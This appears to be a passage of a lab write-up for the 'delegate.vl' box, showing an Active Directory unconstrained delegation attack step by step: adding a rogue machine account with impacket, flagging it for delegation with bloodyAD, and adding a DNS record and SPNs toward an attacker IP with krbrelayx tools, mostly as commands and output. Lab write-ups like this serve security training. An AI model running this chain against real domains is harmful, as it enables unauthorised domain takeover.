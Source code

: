 ## Unconstrained Delegation attack
The easiest way to add a new computer to the domain is by using one of these tools: PowerMad, SharpMad, impacket-addcomputer.
```bash
> addcomputer.py -dc-ip 10.10.88.149 -computer-pass 'Password123!2023' -computer-name evilcomputer delegate.vl/N.Thompson:'<redacted>'

Impacket v0.11.0 - Copyright 2023 Fortra
[*] Successfully added machine account evilcomputer$ with password Password123!2023.
```

Next, we have to enable unconstrained delegation in the `evilcomputer`. We can do that remotely using BloodyAD:
```bash
> git clone https://github.com/CravateRouge/bloodyAD.git
> cd bloodyAD
> pip3 install .
> python3 /opt/bloodyAD/bloodyAD.py -u 'N.Thompson' -d 'delegate.vl' -p '<redacted>' --host 'DC1.delegate.vl' add uac 'evilcomputer$' -f TRUSTED_FOR_DELEGATION
[-] ['TRUSTED_FOR_DELEGATION'] property flags added to evilcomputer$'s userAccountControl
```

We can use the [krbrelayx toolkit](https://github.com/dirkjanm/krbrelayx) developed by Dirk-jan to perform the next tasks.  
Add a DNS record for the evilmachine account we created:
```bash
> git clone https://github.com/dirkjanm/krbrelayx.git
> cd krbrelayx
> python3 dnstool.py -u 'delegate.vl\evilcomputer$' -p 'Password123!2023' -r evilcomputer.delegate.vl -d 10.8.0.151 --action add DC1.delegate.vl -dns-ip 10.10.88.149
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```
Note that `10.8.0.151` is my attacker machine IP.  

In step 4, we need to add an additional SPN via `msDS-AdditionalDnsHostName` to our evilcomputer:
```bash
# Check the SPN records
> python addspn.py -u delegate\\N.Thompson -p '<redacted>' -s HOST/attacker.delegate.vl -q dc1.delegate.vl -t 'evilcomputer$' -dc-ip 10.10.88.149
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
DN: CN=evilcomputer,CN=Computers,DC=delegate,DC=vl - STATUS: Read - READ TIME: 2023-11-12T00:57:23.943939
    sAMAccountName: evilcomputer$

# Add SPN pointing to evilcomputer.delegate.vl
## Adding CIFS
> python addspn.py -u delegate\\N.Thompson -p '<redacted>' -s CIFS/evilcomputer.delegate.vl dc1.delegate.vl -t 'evilcomputer$' -dc-ip 10.10.88.149
## Adding HOSTS
> python addspn.py -u delegate\\N.Thompson -p '<redacted>' -s HOST/evilcomputer.delegate.vl dc1.delegate.vl -t 'evilcomputer$' -dc-ip 10.10.88.149 --additional

# Check the SPN records again
> python addspn.py -u delegate\\N.Thompson -p '<redacted>' -s HOST/attacker.delegate.vl -q dc1.delegate.vl -t 'evilcomputer$' -dc-ip 10.10.88.149
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
```